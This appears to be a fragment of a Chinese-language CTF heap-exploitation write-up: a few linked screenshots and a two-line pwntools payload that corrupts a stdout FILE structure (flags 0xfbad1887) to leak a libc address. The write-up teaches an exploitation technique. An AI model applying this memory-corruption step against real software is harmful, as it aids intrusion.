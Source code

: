 [![](assets/1700186924-dac56d90bc4c545145e80014a4032be4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162937-47364942-845a-1.png)

‍

[![](assets/1700186924-f0721482545021b8a6907b0e071edd20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162942-4a97e276-845a-1.png)

‍

```plain
payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak
```

io leak 泄露 libc 地址

‍

[![](assets/1700186924-f018e9e4744dd172e23a579c088460d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162953-50d6d69c-845a-1.png)
